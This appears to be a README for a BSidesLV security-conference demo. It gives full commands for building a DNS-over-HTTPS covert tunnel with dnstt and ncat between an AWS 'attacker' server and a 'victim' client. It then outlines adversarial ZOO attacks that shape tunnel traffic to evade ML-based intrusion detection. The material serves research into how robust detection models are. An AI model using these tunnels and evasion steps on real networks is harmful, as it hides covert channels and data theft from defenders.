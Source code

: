 # BsidesLV - Demo

## Generic Algorithm to attack any model using Zeroth Order Optimization (ZOO) 

1. Choose the tool to generate malicious traffic
- Example: doh tunnel tools: dnstt, iodine, doh-proxy, etc
2. Generate malicious feature instances (ex: pcap)
- You can use tcpdump, wireshark, scapy (python library), or dohlyzer.
3. Choose the features to attack (best features are you can change like packet size and time)
4. Set up the limits of chosen feature for attacking (ex: positive numbers to time or 30\% for packet size)
5. Attack
6. Get the most modified features (ex: 4 most)
7. Use the gotten numbers to set up your tool

## Demo1 - DoH tunnel Basics - 101
In this demo, we will show how to create a DoH tunnel using [dnstt](https://www.bamsoftware.com/software/dnstt/) on AWS and how to use it to tunnel DNS traffic over HTTPS.

Pre-requisites:
- An AWS account
- An Elastic IP (AWS)
- DNS domain configured in Route 53 (AWS)

### DNS Setup
Go into the AWS Route53 service console and add two records:

A	tns.yourdomain.com	points to	34.239.223.23 (Elastic IP)
NS	t.yourdomain.com	is managed by	tns.yourdomain.com

tns.yourdomain.com points to the addresses of your tunnel server. It is marked as being the nameserver for everything in the t.yourdomain.com DNS zone. 
When a recursive resolver receives a query for subdomain.t.yourdomain.com, it will forward the query to the tunnel server—that is how the client tunnels data to the server.

The "tns" and "t" labels can be anything you want, but the "tns" label should not be a subdomain of the "t" label (everything under that subdomain is reserved for tunnel payloads). 
The "t" label should be short, because there is limited space available in a DNS message, and the domain name takes up part of it.

Here is an example of screen capture of the Route 53 configuration:

![Route53](../img/r53.png)

### Steps
1. Create an EC2 instance (attacker machine) on AWS and attach a elastic IP on it.
2. Make sure the security group allows both TCP and UDP traffic on port 53
3. Install dnstt-server on the EC2 instance
- Clone the dnstt repository: https://github.com/Mygod/dnstt and compile the dnstt-server
- Generate a key pair for the DoH tunnel

```shell
./dnstt-server -gen-key -privkey-file server.key -pubkey-file server.pub
```

4. Create a DoH tunnel (server side)

```shell
./dnstt-server -udp :5300 -privkey-file server.key t.mydomain.com 127.0.0.1:8000
```

5. Create a backend "application" to receive the tunneled traffic on server side

```shell
ncat -l -k -v 127.0.0.1 8000
```

6. Configure the client (victim/local machine) to use the DoH tunnel
- Copy the public key `server.pub` to the client machine

Note: 1.1.1.1 is the Cloudflare DNS resolver. You can use any DoH resolver you want.

```shell
./dnstt-client -doh https://1.1.1.1/dns-query -pubkey-file server.pub t.mydomain.com 127.0.0.1:7000
```

7. Create a backend "application" to receive the tunneled traffic on client side

```shell
ncat -v 127.0.0.1 7000
````

8. Test the DoH tunnel
9. Analyze the traffic
10. Cleanup

## Demo 2 - Attacking DoH Tunnel Detection models    
In this demo, we will demonstrate how to attack DoH tunnel detection models using adversarial examples generated by the 
Zoo Attack (Vanilla) and Zoo Target Attack.
In the Zoo Vanilla attack, the success rate is high because the attack algorithm faces fewer constraints when generating 
adversarial examples.
Conversely, in the Zoo Target attack, the success rate is lower due to the increased constraints on the attack algorithm. 
However, it is important to note that despite the lower success rate, this attack is more realistic. 
In a real-world scenario, we just need a single successful attack instance to achieve the desired effect.

### Zoo Attack (Vanilla Attack)
1. Normalize data: [normalize-data.ipynb](./bsides-experiments/normalize-data.ipynb)
2. Train a model: [build_model.ipynb](./bsides-experiments/build_model.ipynb)
3. Generate adversarial examples (attack): [ZooDoH_Attack_GB.ipynb](./bsides-experiments/ZooDoH_Attack_GB.ipynb)

### Zoo Target Attack 
1. Normalize data: [normalize-data.ipynb](./bsides-experiments/normalize-data.ipynb)
2. Train a model: [build_model.ipynb](./bsides-experiments/build_model.ipynb)
3. Get DoH tunnel tools feature limits: [get-doh-tunnel-tool-limits.ipynb](./bsides-experiments/get-doh-tunnel-tool-limits.ipynb)
4. Increase/decrease the feature limits according to your needs: Edit the file `dnstt-limits-prod.csv`
5. Choose features to attack: Edit the array `features_to_attack` on notebook `Target_ZooDoH_Attack_GB.ipynb`. 
You can use the [feature list](./FEATURE_LIST.md) as a reference.
6. Generate adversarial examples (attack): [Target_ZooDoH_Attack_GB.ipynb](./bsides-experiments/Target_ZooDoH_Attack_GB.ipynb)

## Demo 3 - Real world Black Box Attacking (real-world scenario)   
In this demo, we will demonstrate how to attack DoH tunnel detection models using adversarial examples generated by the Target Zoo Attack in a real-world scenario.
The model is loaded by the [nids-ml.py](./feature-extractor/meter/nids-ml.py) script, simulating a real ML-based NIDS to detect DoH tunnel. The script captures the network traffic, normalize it and classifies it using the loaded model.
We use auxiliary scripts ([generate-tunnel-data](./tunel-dnstt/generate-tunnel-data.py) | [generate-attacked-tunnel-data](./tunel-dnstt/generate-attacked-tunnel.py)) to produce tunnel data and send it to the NIDS.

![Demo Target Zoo Attack](../img/demo_target_zoo.png)

**Warning: This demo simulates a real-world scenario, where the training data were generated under specific network 
conditions such as latency, bandwidth, and network configuration. As a result, your outcomes may differ from those 
presented in the demo. However, you can generate your own training data and train your model accordingly. 
For detailed instructions, refer to the "Generate Your Own Training Data" section in the 
[GENERATING_TRAINING_DATA.md](./GENERATING_TRAINING_DATA.md) document.**

### Steps

1. Run steps 1-6 from [Demo 1](#demo1---doh-tunnel-basics---101).
Note: Do not create the backend application on the client side.
2. Run [Target Zoo Attack](#zoo-target-attack-) - The steps are the same as showed in [Demo 2](#demo-2---attacking-doh-tunnel-detection-models-).
3. On the local machine, start the NIDS script, specifying the interface (-n), the model path (-m), and a path to save the captured data (-c).

```shell
cd feature-extractor/meter
./nids-ml.py -n <INTERFACE> --enable-nids -m ../../bsides-experiments/ -c /tmp/captured.csv
```

4. Choose the (best) features you want to reproduce based on the two last [notebook](./bsides-experiments/Target_ZooDoH_Attack_GB.ipynb) cells 
and replace the values on the [generate-attacked-tunnel-data](./tunel-dnstt/generate-attacked-tunnel.py) script.

5. Run the [generate-attacked-tunnel-data](./tunel-dnstt/generate-attacked-tunnel.py) script to send the adversarial examples to the NIDS.
Tip: You can run the benign traffic script ([generate-tunnel-data](./tunel-dnstt/generate-tunnel-data.py)) to compare the results.


